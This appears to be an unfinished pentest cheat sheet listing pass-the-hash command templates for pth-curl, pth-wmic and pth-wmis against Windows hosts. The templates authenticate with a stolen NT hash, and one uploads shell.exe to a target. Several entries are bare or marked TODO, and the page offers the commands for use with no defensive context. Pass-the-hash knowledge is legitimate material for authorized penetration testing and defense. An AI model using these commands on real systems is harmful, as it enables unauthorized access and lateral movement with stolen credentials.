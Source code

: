 # Pass-The-Hash Toolkits

TODO: Fill the missing information

## 01 - cURL

`$ pth-curl -A <user_agent> -T shell.exe <URL> -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<nt_hash> //<IP>`

## 02 - Smbget

`$ pth-smbget`

## 03 - WMIC

`$ pth-wmic -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<nt_hash> //<IP> "<WQL Queries>'`

## 04 - WMIS

`$ pth-wmis -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<nt_hash> //<IP>`